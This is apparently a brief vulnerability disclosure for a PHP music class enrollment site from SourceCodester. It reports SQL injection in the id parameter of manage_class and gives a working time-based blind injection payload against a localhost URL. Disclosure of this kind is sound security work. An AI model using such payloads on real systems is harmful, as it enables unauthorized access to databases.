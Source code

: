 # SQL injection vulnerability exists in the music course registration system

## Vulnerability author:wanglun

supplier:
https://www.sourcecodester.com/php/15362/music-class-enrollment-site-phpoop-free-source-code.html

edition: 
1.0

/manage_class.php

The Id parameter has SQL injection. Procedure

Payload: http://localhost:80/mces/admin/?page=classes/manage_class&id=4' AND (SELECT 4594 FROM (SELECT(SLEEP(5)))ausq) AND 'oWIJ'='oWIJ

![image](https://github.com/user-attachments/assets/99f448cc-ba5f-4f51-bc99-2b41d5389e81)

![image](https://github.com/user-attachments/assets/a009953f-0066-4d84-9e94-312c29169713)
